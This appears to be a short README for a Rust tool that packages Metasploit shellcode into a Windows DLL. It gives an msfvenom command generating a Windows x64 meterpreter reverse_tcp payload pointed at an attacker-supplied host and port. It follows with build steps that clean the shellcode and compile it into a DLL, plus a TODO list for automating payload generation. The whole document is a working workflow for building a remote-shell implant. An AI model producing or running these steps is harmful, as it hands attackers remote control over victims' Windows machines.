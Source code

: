 ### Usage with msfvenom

Generate a payload specifying bad characters.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f c -b '\x00\x0a\x0d\x20'
```

Take OutPut from msfvenom and paste into `main.rs` to clean up shellcode

```
cargo run 
```

Take cleaned up output and paste shellcode into `lib.rs` and build to DLL

```
cargo build --release
```

---

TODO 
- Less interactive
- Msfvenom Payload generation included
- Custom `build.rs` to copy and rename dlls. 
